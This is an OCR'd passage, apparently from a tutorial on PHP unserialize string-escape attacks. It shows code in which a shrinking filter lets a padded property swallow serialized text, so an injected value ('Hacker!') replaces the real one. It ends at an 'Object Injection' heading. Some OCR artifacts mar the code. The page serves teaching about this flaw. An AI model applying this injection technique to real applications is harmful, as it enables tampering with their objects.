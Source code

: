 ```php
echo "Filtered"."\n";
$c = unserialize(down(serialize(new D1no())));
print_r($c);
?>
=>
O:4:"D1no":2:{s:4:"name";s:11:"H3rmesk1txx";s:3:"way";s:15:"Web_Crypto_Misc";}
Before filtering
D1no Object
(
    [name] =H3rmesk1txx
    [way] =Web_Crypto_Misc
)
After filtering
```

- String escape implementation
Since `xx` will be replaced with `x`, the 66 `x` we output will become 33 `x`. Since `";s:3:"way";s:15:"Web_Crypto_Misc` has a total of 33 characters, so it will be eaten by the parameter name and treated as its attribute value. The malicious string we write `";s:3:"way";s:7:"Hacker!";}` can be parsed normally and performed deserialization operations.

```php
<?php
function up($str){
    return str_replace("xx
","x",$str);
}
class D1no{
    public $name = 'H3rmesk1txxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx';
    public $way = 'Web_Crypto_Misc";s:3:"way";s:7:"Hacker!";}';
}

echo serialize(new D1no())."\n";
echo "Before filtering","\n";
$c = unserialize((serialize(new D1no())));
print_r($c)."\n";
echo "Filtered"."\n";
$c = unserialize(up(serialize(new D1no())));
print_r($c);
?>
=>
O:4:"D1no":2:{s:4:"name";s:75:"H3rmesk1txxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";s:3:"way";s:42:"Web_Crypto_Misc";s:3:"way";s:7:"Hacker!";}";}
Before filtering
D1no Object
(
    [name] =H3rmesk1txxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    [way] =Web_Crypto_Misc";s:3:"way";s:7:"Hacker!";}
)
After filtering
D1no Object
(
    [name] =H3rmesk1txxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx";s:3:"way";s:42:"Web_Crypto_Misc
    [way] =Hacker!
)
```
## Object Injection
